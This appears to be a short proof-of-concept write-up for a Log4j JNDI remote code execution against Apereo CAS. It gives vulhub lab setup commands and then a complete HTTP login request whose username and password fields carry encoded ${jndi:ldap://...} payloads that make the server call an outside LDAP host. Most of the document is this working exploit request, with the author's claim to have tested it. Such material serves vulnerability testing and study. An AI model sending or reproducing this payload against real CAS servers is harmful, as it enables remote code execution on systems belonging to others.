

# Apache Apereo log4j RCE

## vulhub

```
cd vulhub/apereo-cas/4.1-rce
docker-compose up -d
```

## Poc

```
POST /cas/login HTTP/1.1
Host: yyyyyyy:8080
Content-Length: 1384
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://yyyyyyy:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://yyyyyyy:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: xxx
Connection: close

username=%24%7Bjndi%3Aldap%3A%2F%2Fapereo_test.xxxxxxx%7D&password=%24%7Bjndi%3Aldap%3A%2F%2Fapereo_test.xxxxxxx%7D&lt=LT-32-0b7gww7IZo6Qcm3SftQ1e0kmgdP1rV-cas01.example.org&execution=5d8eec0b-06dc-4121-81c7-b1ad63dd7c8e_AAAAIgAAABDkPSQ9dwEJi%2BcrYR7xyGTPAAAABmFlczEyOLeqpOjXwhh3Z7KgdFl7LAcGEvfeJvKQ88rhsOGlfdEvL8E2bN3%2B1IFBw3wmltVQ%2FIg9J25E%2B1LGabz%2B2B6he8ahWPt5avt981Blr9F2lhoAucRaBDo5z1YtgkAIcBZOikJQNqCE1DtvO8y0wFk9dsA2QQ0doCzLNhkozKZCO5cpY2AXmJygoYntQin7l2Fohe3AG1ZmX1cacWOiTCTesr3SrU2xM3%2B%2BxnpEA6uB4NeXfGIgvHOFzup0gpcXZ9DP4zOEjOyK0vB3KnIkwdAHPgpzOnVwfdRLIxSIArKKZJenEOZhHvF5bzeMeJLgUMlvlldNNjPqwiw1lIJW59zmYz4FkX26A5%2FdINhhfI%2BD2a9ir5Oqxffz%2B17AxsKbZGds%2BZ97Qdb8ULlvHB2ESfU3JxF26wpH5XKU2rofbvkJZ8wVC2zRRgLfAt9j3NKV7sw2KvnrGbDo%2FFQZ1qpJWk35BLtaBr6KAX9i6a4B3Zv%2FTebZveLfsixJOzbP059wuLwSjAVvNoH5l7FukSKxGuKmTKr%2FE%2By3oLkUUSX0jId79WAbBo4Zp8E9hZqNEZGKpbFnsvqE%2B9jCWKxx7vvqaFDbqKM8%2FAZloRyaAt8fbUGRnCtptyXFaLg1dlJwIVIYfUs%2F5R3BPwakTqrZHpKyk71jP%2FtpVVvL7w0DzF982WHiwLMNS4VZD840itKCQWKoNEzc7sJA965%2Bni6GV8HDRxR%2FqE7mdLjgybFf5fAW6%2Bpf07MOa%2F%2F%2BsTlbdcymkkpQu%2B6mZZTEmQ5UAyEu%2Fg4e1U6LZ%2B%2BRtj0EZoHeUXuIC%2FoY7hgNR1pPozAjvBRC3gR42C%2FZKS2ihmhwAMuulJbjQfC80i7QejsL5IBupKml40GeBG1BcHqTIPjuN6naCLj0BqXrGmehkflbvFtQiyYaIY0PROtwPtxMu9ha8YmNSLpCiwy27hUcn5ATx9usQDmKLDbVbxC%2B94nEu5cbH%2Brs%2BS%2BZ7UJOPnCnx9Un24YGO2rAAu%2B7&_eventId=submit&submit=LOGIN
```

I've tested it


